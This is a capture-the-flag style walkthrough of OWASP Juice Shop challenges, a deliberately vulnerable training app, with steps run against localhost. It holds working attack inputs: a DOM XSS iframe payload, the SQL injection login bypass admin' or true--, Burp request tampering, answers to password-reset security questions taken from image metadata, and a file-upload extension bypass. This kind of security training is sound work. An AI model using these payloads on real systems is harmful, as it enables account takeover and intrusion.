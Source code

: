 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br><br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupon <br><br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br><br>

### Bonus Payload<br>
Search bar > <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe><br><br>

### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br><br>

### Error Handling<br>
Account Login > put ' in email and password fields<br><br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br><br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_output<br>
cd gospider_output
cat 127_0_0_1 | grep code-200<br><br>

### Missing Encoding<br>
change # to %23<br>
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg<br><br>

### Zero Stars<br>
http://localhost:3000/#/contact<br>
burp proxy > repeater > rating:0<br><br>

### Repetitive Registration<br>
http://localhost:3000/#/register<br>
burp proxy > repeater > passwordRepeat:""<br><br>

## 2 STAR
### Login Admin<br>
http://localhost:3000/#/login<br>
email:admin' or true--<br>
password:'<br><br>

### Admin Section<br>
http://localhost:3000/#/administration<br><br>

### Five-Star Feedback<br>
http://localhost:3000/#/administration<br>
delete button<br>

### Empty User Registration<br>
http://localhost:3000/#/login<br>
burp proxy > repeater > email:"",password:"",passwordRepeat:""<br><br>

### Empty User Registration<br>
email:mc.safesearch@juice-sh.op<br>
password:Mr. N00dles<br>

### Meta Geo Stalking<br>
http://localhost:3000/#/forgot-password<br>
exiftool favorite-hiking-place.png <br>
36°57’31.38″ N 84°20’53.58″ W <br>
burp suite > repeater<br>
email: john@juice-sh.op<br>
secret:Daniel Boone National Forest<br>

### Weird Crypto
hash analyzer > 4b2e6b2618920cb1713bb801cd05401e<br>
http://localhost:3000/#/contact <br>
Comment: md5 > submit <br>

### Visual Geo Stalking
http://localhost:3000/#/forgot-password<br>
http://localhost:3000/assets/public/images/uploads/IMG_4253.jpg<br>
email: emma@juice-sh.op<br>
secret: ITsec<br>

### View Basket
http://localhost:3000/#/basket<br>
burp suite > repeater<br>
GET /rest/basket/X HTTP/1.1 <br>

### Security Policy
localhost:3000/.well-known/security.txt<br>

## 3 STAR
### Upload type
http://localhost:3000/#/complain <br>
rename file extension to .zip or .pdf > uoload and submit<br>
burp suite > repeater > remove .zip to original extension<br>
Content-Disposition: form-data; name="file"; filename="legal.md.zip"<br>
